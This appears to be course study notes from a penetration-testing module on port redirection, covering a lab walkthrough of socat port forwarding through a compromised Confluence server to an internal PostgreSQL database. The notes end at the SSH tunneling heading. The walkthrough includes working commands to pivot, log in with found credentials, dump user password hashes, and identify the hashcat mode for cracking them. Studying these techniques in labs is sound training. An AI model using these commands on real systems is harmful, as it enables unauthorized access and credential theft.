 # Module 18: Port Redirection and SSH Tunneling

## Why Port Redirection and Tunneling?

Most networks aren't _flat_, or at least shouldn't be. Port Redirection and Tunneling are important because we will likely run into network with segmentation via subnets, firewalls, etc.

## Port Forwarding with Linux Tools

### A Simple Port Forwarding Scenario

Context for following sections' follow-along labs. Nothing to note.

### Setting Up the Lab Environment

More context, at this point we've gained access to a Confluence server and identified an internal subnet with plaintext credentials to a postgres database.

### Port Forwarding with Socat

We'll be setting up a listening port on the Confluence server to listen on port 2345 on the WAN interface, forwarding all traffic to port 5432 of the postgres server using **socat**.

Starting a verbose Socat process (`-ddd`), listening on TCP port 2345 (`TCP-LISTEN:2345`), forking into a new subprocess when it receives a connection instead of dying after a single connection (`,fork`), then forwarding all traffic it receives to TCP port 5432 on the postgres server (`TCP:10.4.50.215:5432`).

{% code overflow="wrap" lineNumbers="true" %}
```bash
confluence@confluence01:/opt/atlassian/confluence/bin$ socat -ddd TCP-LISTEN:2345,fork TCP:10.4.50.215:5432
```
{% endcode %}

Connecting through the Confluence server to the postgres server with the credentials found earlier:

```bash
kali@kali:~$ psql -h 192.168.50.63 -p 2345 -U postgres

# Now that we're connected, list the databases
postgres=# \l
# Connect to the database
postgres=# \c confluence
# Grab everything from the cwd_user table which contains the username and password hashes for all Confluence users
postgres=# select * from cwd_user;
```

The hashcat mode number for _Atlassian (PBKDF2-HMAC-SHA1)_ hashes is _12001_.

## SSH Tunneling

